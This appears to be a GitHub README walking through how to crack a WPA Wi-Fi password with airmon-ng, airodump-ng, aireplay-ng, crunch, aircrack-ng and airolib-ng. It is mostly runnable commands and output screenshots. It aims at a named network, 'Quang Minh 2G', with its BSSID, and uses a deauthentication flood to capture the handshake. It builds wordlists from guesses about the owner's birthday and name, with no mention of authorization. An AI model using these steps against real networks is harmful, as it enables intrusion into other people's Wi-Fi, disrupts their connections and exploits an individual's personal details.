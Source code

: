 ## Example crack wpa attack speed with airolib-ng, aircrack-ng

i use tp-link wn725n and on parrotOS, the name of it is ridiculous

```
iwconfig
```

![image](https://user-images.githubusercontent.com/90561566/166419875-330952f9-ce4a-416d-b403-ec2d39ecc3dc.png)

```
airmon-ng start <iface>
```

![image](https://user-images.githubusercontent.com/90561566/166419967-2d8d1bd2-eb49-40b7-b46f-cf52497eba4b.png)

```
airodump-ng <iface>
```

![image](https://user-images.githubusercontent.com/90561566/166420371-20c0ce94-e653-4cda-b87b-72f071d94a49.png)

i will choose target is `Quang Minh 2G`, CH `11`, bssid `5C:1A:6F:88:19:19`

```
airodump-ng -c <CH> --bssid <bssid> -w out <iface>
```

![image](https://user-images.githubusercontent.com/90561566/166420867-1c3d3d5a-5c26-4f67-b271-84f9a19c81d0.png)

new terminal

```
aireplay-ng --deauth 0 -a <bssid> <iface>
```

wait about 5s, return airodump-ng terminal, if you see WPA handshake is okay and Ctrl+C to stop (both)

![image](https://user-images.githubusercontent.com/90561566/166421288-8ba74de3-f6f9-4973-be3e-d9aafd8fcb11.png)

```
ls
```

![image](https://user-images.githubusercontent.com/90561566/166421374-cfcf7080-c28a-402b-a6cb-9fda3a275a91.png)

create passlist

```
crunch <min> <max> <charset> -t <pattern> -o password.txt
```

because it's going to be a very, very large file, so i'm going to reveal that

the password is 8 numbers (i think it contains in his birthday) and 1 character (i think it contains in his name)

you can also use [Cupp](https://github.com/lucthienphong1120/cupp) to make such inferences

![image](https://user-images.githubusercontent.com/90561566/166432950-8e1e639f-a889-47e9-83eb-be9c8282a237.png)

the output file about 7,6 GB and 8 hundred thousand passwords

---

now you can crack wpa with

```
aircrack-ng -w password.txt out*.cap
```

![image](https://user-images.githubusercontent.com/90561566/166444763-a0cb15e0-309f-430e-bc6d-ce92e7863f0e.png)

---

but i will use database to speed up the attack

it will take more time to set up the database (but it will be much faster than regular crack)

you should only use it if you create a permanent database for crack because it will take a long time (or the passlist is not too long)

install sqlite3 `sudo apt install sqlite3`

create a file `essid.txt` this write name of target wifi

![image](https://user-images.githubusercontent.com/90561566/166434891-81c08ca3-48ff-4579-9a74-fe6e65634b42.png)

```
airolib-ng crackwpa --import passwd password.txt
airolib-ng crackwpa --import essid essid.txt
```

![image](https://user-images.githubusercontent.com/90561566/166435872-44a73959-3784-41c3-849a-5c1aa823dcd4.png)

```
airolib-ng crackwpa --batch
```

![image](https://user-images.githubusercontent.com/90561566/166454564-9b6cd253-74a0-4304-b94e-988a3e92f825.png)




















